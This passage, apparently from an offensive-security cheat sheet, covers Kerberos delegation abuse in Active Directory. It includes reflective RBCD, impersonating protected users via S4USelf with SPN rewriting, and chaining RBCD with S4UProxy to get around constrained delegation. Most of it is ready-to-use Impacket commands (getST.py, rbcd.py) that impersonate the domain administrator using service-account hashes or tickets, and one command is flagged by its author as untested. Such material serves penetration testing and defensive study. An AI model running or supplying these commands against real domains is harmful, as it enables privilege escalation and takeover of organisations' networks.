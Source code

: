 **NOT TESTED IN MY LAB WITH IMPACKET**

```bash
getST.py -spn 'cifs/serviceB.domain.local' -additional-ticket ./ticket.ccache -hashes ':<ServiceA_NThash>' -dc-ip <DC_IP> domain.local/ServiceA$
```

#### Reflective RBCD

With a TGT or the hash of a service account, an attacker can configure a RBCD from the service to itself, and run a full S4U to access to access the machine on behalf of another user.

```bash
rbcd.py -action write -delegate-from ServiceA$ -delegate-to ServiceA$ -k -no-pass domain.local/ServiceA$
getST.py -spn 'cifs/serviceA.domain.local' -impersonate administrator -k -no-pass -dc-ip <DC_IP> domain.local/ServiceA$
```

#### Impersonate protected user via S4USelf request

It is possible to impersonate a **protected user** with the **S4USelf** request if we have a TGT (or the creds) of the target machine (for example from an **Unconstrained Delegation**).

With the target TGT it is possible to realise a S4USelf request for any user and obtain a TGS for the service. In case where the needed user is protected against delegation, S4USelf will still work, but the TGS is not forwardable (so no S4UProxy possible) and the specified SPN is invalid...however, the SPN is not in the encrypted part of the ticket. So it is possible to modify the SPN and retrieve a valid TGS for the target service with a sensitive user (and the TGS PAC is well signed by the KDC).

```bash
getST.py -self -spn 'cifs/serviceA.domain.local' -impersonate administrator -k -no-pass -dc-ip <DC_IP> domain.local/ServiceA$
```

#### Bypass Constrained Delegation restrictions with RBCD

* Attacker compromises **ServiceA** and **ServiceB**
* ServiceB is allowed to delegate to `time/ServiceC` (the target) without protocol transition (no S4USelf)
* Attacker configures RBCD from ServiceA to ServiceB and performs a full S4U attack to obtain a forwardable TGS for the Administrator to ServiceB
* Attacker reuses this forwardable TGS as evidence to realise a S4UProxy attack from ServiceB to `time/ServiceC`
* Since the service is not protected in the obtained ticket, the attacker can change the TGS from the previous S4UProxy execution to `cifs/ServiceC`

```bash
#RBCD from A to B
rbcd.py -action write -delegate-from ServiceA$ -delegate-to ServiceB$ -hashes ':<ServiceA_NThash>' domain.local/ServiceA$
getST.py -spn 'cifs/serviceB.domain.local' -impersonate administrator -hashes ':<ServiceA_NThash>' -dc-ip <DC_IP> domain.local/ServiceA$

#S4UProxy from B to C with the obtained TGS as evidence
getST.py -spn 'cifs/serviceC.domain.local' -additional-ticket ./administrator.ccache -hashes ':<ServiceB_NThash>' -dc-ip <DC_IP> domain.local/ServiceB$
```
